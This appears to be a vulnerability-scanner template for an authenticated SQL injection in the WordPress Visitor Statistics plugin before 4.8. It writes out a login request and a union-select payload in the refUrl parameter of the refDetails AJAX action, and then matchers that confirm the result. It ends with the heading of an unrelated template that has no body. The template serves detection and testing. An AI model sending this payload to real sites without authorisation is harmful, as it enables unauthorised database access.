 
# WordPress Visitor Statistics (Real Time Traffic) \<4.8 -SQL Injection

## Description

- WordPress Visitor Statistics (Real Time Traffic) plugin before 4.8 does not properly sanitize and escape the refUrl in the refDetails AJAX action, which is available to any authenticated user. This could allow users with a role as low as subscriber to perform SQL injection attacks.
- severity - high
- tags - authenticated,wpscan,cve,cve2021,sqli,wp,wordpress,wp-plugin

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin-ajax.php?action=refDetails&requests=%7B%22refUrl%22:%22'%20union%20select%201,1,md5({{num}}),4--%20%22%7D HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

**Type - status**

- status
  1. 200

---

# PuneethReddyHC action.php SQL Injection
